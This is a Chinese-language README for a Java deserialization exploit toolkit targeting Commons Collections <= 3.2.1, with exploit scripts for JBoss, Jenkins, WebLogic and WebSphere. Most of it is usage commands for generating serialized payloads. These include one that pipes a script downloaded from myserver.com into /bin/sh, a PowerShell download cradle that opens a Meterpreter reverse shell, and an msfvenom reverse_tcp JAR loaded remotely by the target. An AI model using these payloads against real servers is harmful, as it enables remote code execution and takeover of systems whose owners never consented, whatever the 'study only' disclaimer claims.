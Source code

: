 Java Untrusted Deserialization Exploits Tools
===

免责声明
---

本工具仅供学习与研究目的，请勿用于商业目的，如果因此有任何法律纠纷，与工具作者无任何关系。

文件说明
---

    .
    |____README.md
    |____exserial.jar     基于 CommonsCollections <= 3.2.1 的 Gadget 生成程序
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet 利用脚本
    | |____jenkin.py      Jenkins CLI 利用脚本
    | |____weblogic.py    WebLogic 利用脚本
    | |____websphere.py   WebSphere 利用脚本

使用方法
---

`exserial.jar` 目前包含两种 Payload 生成模式：`CommandExec` 和 `ClassInject`

    $ java -jar exserial.jar
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec 模式

用于直接在目标服务器上执行系统命令，可以根据不同的目标环境调整攻击配置：

    $ java -jar exserial.jar CommandExec
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            
针对目标为 Linux 的系统，可以执行如下命令生成 Payload，使目标成功执行命令后加载我们指定的脚本文件进行执行：

    $ java -jar exserial.jar CommandExec Linux "curl http://myserver.com/todo.sh|/bin/sh" > demo1.ser
    
针对目标为 Windows 的系统，可以借助 Powershell 来获取 Shell 或者加载我们指定的脚本进行执行（下面为利用 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 中的 `Invoke--Shellcode.ps1` 脚本反弹类型为 `windows/meterpreter/reverse_https` 的 Shell）：

    $ java -jar exserial.jar CommandExec Win "powershell IEX (New-Object Net.WebClient).DownloadString('http://myserver.com/CodeExecution/Invoke--Shellcode.ps1');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.130.1 -Lport 4444 -Force" > demo2.ser
    
![](./screenshots/1.png)

### 2. ClassInject 模式

用于使目标服务器动态加载我们指定的 JAR 包并执行指定类名的 `main` 方法。

例如，可以使用 `msfvenom` 生成基于 [Metasploit](https://github.com/rapid7/metasploit-framework) 框架的 `java/meterpreter/reverse_tcp` JAR 包：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
然后将 `java_meterpreter_reverse_tcp.jar` 包至于一服务上用于目标服务器进行加载，然后使用 `exserial.jar` 生成对应的 Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

![](./screenshots/2.png)

更新记录
---

* 2015-12-12    增加 ClassInject Gadget 执行链生成类 和 反序列化本地测试类
* 2015-12-10    更新目录结构 & 修复 websphere.py 利用脚本 bug
* 2015-12-07    基于 CommonsCollections <= 3.2.1 Gadget 生成程序 exserial.jar（包含 jboss、jenkins、weblogic、websphere 利用脚本）
